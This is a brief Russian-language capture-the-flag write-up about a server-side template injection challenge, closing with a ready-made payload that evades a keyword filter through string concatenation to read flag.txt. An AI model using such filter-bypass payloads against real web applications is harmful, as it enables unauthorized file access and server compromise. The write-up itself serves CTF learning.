 # Solution

При переходе на страницу видна одна post форма. Пробуем отправить данные - меняется страница.
Пробуем эксплуатировать Server-Side-Template-Injection. Стоит фильтр на __class__, __mro__ и т.д.
Готовый bypass:
{{''['__cla'+'ss__']['__mr'+'o__'][2]['__subclas'+'ses__']()[40]('fla'+'g.txt').read()}}
